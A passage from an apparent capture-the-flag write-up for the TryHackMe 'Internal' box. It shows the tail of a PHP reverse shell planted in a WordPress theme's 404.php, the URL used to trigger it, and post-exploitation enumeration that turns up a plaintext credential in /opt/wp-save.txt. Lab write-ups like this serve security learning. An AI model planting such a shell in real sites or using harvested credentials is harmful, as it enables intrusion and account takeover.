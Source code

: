 ```php
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

Then we can just set our ip and port in the code and navigate to the 404 template to open the reverse shell.

http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php

Now we have a shell

```bash
ls -la
```

Again I got stuck here for a while trying to enumerate and had to reference the writeup. The writeup mentions manual enumeration is preferred for this challenge

```bash
cd /opt
ls -la
```

we see containerd (likely a docker container)
and 
wp-save.txt

```bash
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123

```
